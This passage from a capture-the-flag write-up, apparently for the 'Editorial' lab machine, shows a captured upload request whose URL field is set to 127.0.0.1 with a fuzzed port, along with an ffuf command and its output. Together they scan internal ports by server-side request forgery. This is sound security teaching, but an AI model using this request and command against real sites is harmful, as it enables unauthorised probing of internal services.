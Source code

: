 - ```-t 10``` (Threads): The ```-t``` flag specifies the number of concurrent threads to use for sending requests. Setting it to 10 means ```ffuf``` will send up to ten requests simultaneously. This can significantly speed up the fuzzing process, but it’s essential to find a balance to avoid overwhelming the server.

But first, here are the contents of the modified captured request (request.txt) that I passed to ```FUFF```:

```
POST /upload-cover HTTP/1.1
Host: editorial.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------283338384034137401052693891016
Content-Length: 363
Origin: http://editorial.htb
Connection: close
Referer: http://editorial.htb/upload

-----------------------------283338384034137401052693891016
Content-Disposition: form-data; name="bookurl"

http://127.0.0.1:FUZZ
-----------------------------283338384034137401052693891016
Content-Disposition: form-data; name="bookfile"; filename=""
Content-Type: application/octet-stream

-----------------------------283338384034137401052693891016--
```

And here is the exact command I used:

```
ffuf -ac -w /usr/share/wordlists/seclists/Fuzzing/4-digits-0000-9999.txt:FUZZ -u http://editorial.htb/upload-cover -request request.txt -t 10
```

It's important to note that the URL must be specified manually. Initially, I assumed that using the ```-request``` flag alone would allow ffuf to automatically extract the URL from the request file. In other words, the request file is utilized to modify the body or headers of the request, but it does not automatically set the destination URL unless explicitly provided. While this might seem a bit strange, I’ve gained valuable insights from this experience.

Here is the output from my Kali machine, demonstrating how everything should appear if everything goes smoothly:

```
 :: Method           : POST
 :: URL              : http://editorial.htb/upload-cover
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Fuzzing/4-digits-0000-9999.txt
 :: Header           : Host: editorial.htb
 :: Header           : Accept-Encoding: gzip, deflate, br
 :: Header           : Connection: close
 :: Header           : Content-Type: multipart/form-data; boundary=---------------------------283338384034137401052693891016
 :: Header           : Origin: http://editorial.htb
 :: Header           : Referer: http://editorial.htb/upload
 :: Header           : User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
 :: Header           : Accept: */*
 :: Header           : Accept-Language: en-US,en;q=0.5
 :: Data             : -----------------------------283338384034137401052693891016
Content-Disposition: form-data; name="bookurl"

http://127.0.0.1:FUZZ
```
